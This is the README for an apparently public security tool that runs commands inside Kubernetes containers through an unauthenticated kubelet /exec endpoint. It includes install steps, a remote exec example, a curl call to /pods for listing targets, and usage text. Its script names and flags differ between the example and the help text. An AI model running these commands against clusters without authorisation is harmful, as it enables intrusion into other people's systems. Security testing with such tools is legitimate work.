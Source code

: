# Kubelet Anonymous RCE

>Executes commands on a kubelet endpoint that allows anonymous authentication (default)

## Why?

By default `kubelet` allows anonymous authentication:

```
--anonymous-auth
    Enables anonymous requests to the Kubelet server. Requests that are not
    rejected by another authentication method are treated as anonymous
    requests. Anonymous requests have a username of system:anonymous, and a
    group name of system:unauthenticated. (default true)
```

The `kubelet` API is not documented but the [code](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go) is straightforward.

There is a `/exec` endpoint which allows running a command in a target container and returns a link to fetch the output. That link is a stream that should be read with a WebSocket.

This script handles it all easily.

## Install

```
$ git clone https://github.com/serain/kubelet-anon-exec.git
$ cd kubelet-anon-exec
$ pip3 install -r requirements.txt
```

## Example

This command runs `ls /tmp` in the `tiller` container and returns the output:

```
$ python3 kubelet-anon-rce.py           \
          --node 10.1.2.3               \
          --namespace kube-system       \
          --pod tiller-797d1b1234-gb6qt \
          --container tiller            \
          --exec "ls /tmp"
```

## How do I find containers?

You can get a list of pods/containers running on the node from the `/pods` endpoint:

```
$ curl https://10.1.2.3:10250/pods
```

This is also useful to confirm anonymous authentication.

## Help

```
$ python kubelet-anon-exec.py --help
usage: kubelet-anon-exec.py [-h] [--port PORT] -t TARGET -n NAMESPACE -p POD
                            -c CONTAINER -x EXEC

Run commands against a Kubelet endpoint.

optional arguments:
  -h, --help            show this help message and exit
  --port PORT           endpoint port, default: 10250
  -t TARGET, --target TARGET
                        Kubernetes node IP address
  -n NAMESPACE, --namespace NAMESPACE
                        namespace, ie: 'default'
  -p POD, --pod POD     pod name, ie: 'dh-nginx-8484b69674-z9tzl'
  -c CONTAINER, --container CONTAINER
                        container name, ie:'nginx'
  -x EXEC, --exec EXEC  command to execute, ie: 'ls /tmp'
```
